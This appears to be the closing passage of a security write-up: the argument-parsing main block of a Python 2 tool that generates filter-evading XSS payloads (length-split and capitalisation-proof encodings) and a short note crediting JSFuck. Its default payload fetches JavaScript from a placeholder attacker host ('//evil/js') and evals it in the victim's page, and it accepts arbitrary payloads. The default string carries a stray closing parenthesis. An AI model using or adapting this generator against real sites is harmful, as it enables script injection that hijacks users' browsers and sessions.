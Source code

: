 
if __name__ == "__main__":
    logger = logging.getLogger('XSS Payloads')
    log_handler = logging.StreamHandler()
    log_handler.setFormatter(ColorFormatter('%(levelname)s: %(message)s'))
    logger.addHandler(log_handler)
    
    parser = argparse.ArgumentParser(
        formatter_class=argparse.ArgumentDefaultsHelpFormatter,
        argument_default=argparse.SUPPRESS,
        description='''XSS payloads for edge cases (limited number of
        characters, capitalised payloads, more to come...). Default
        payload fetches and external script. Arbitrary payloads are
        supported.''')
    parser.add_argument('-p', '--payload', dest='payload',
        default="fetch('%%SCRIPT%%').then(r=>r.text().then(eval)))",
        metavar='STRING', help='''Raw payload. %%SCRIPT%% will be
        replaced with the URL of the external script.''')
    parser.add_argument('-x', '--script', dest='script',
        default="//evil/js", metavar='STRING',
        help='''URL for the external script''')
    parser.add_argument('-e', '--encoding', dest='encoding',
        default='num_to_string', metavar='NAME',
        choices=['num_to_string', 'split_to_len'],
        help='''Type of payload encoding. More types to come
        soon...''')
    parser.add_argument('--singleQ', dest='quote',
        default='"', action='store_const', const="'",
        help='''Use single quotes for concatenating.''')
    parser.add_argument('-d','--debug', dest='loglevel',
        default=logging.INFO, action='store_const',
        const=logging.DEBUG,
        help='''Be very verbose.''')
    parser.add_argument('--toString', dest='to_string',
        default='toString', metavar='STRING',
        help='''String to use instead of "toString" when
        encoding payload as <num>["toString"](36).''')
    parser.add_argument('--maxLen', dest='max_len',
        default=15, metavar='NUMBER', type=int,
        help='''Maximum length to use when
        splitting payload.''')
    parser.add_argument('--maxInt', dest='max_int',
        default=MAX_JS_INT, metavar='NUMBER', type=int,
        help='''Maximum integer to use when
        encoding payload as <num>["toString"](36).''')
    args = parser.parse_args()
    
    logger.setLevel(args.loglevel)
    
    p = Payload(args.payload.replace('%%SCRIPT%%', args.script),
            args.to_string)
    
    print '%s' % getattr(p, 'as_'+args.encoding)(**vars(args))
References and further reading
The Dealing with capitalization solution was inspired by JSFuck. In comparison it allows a lot more characters (all except lowercase letters). Consequently it’s a lot less verbose than JSFuck.
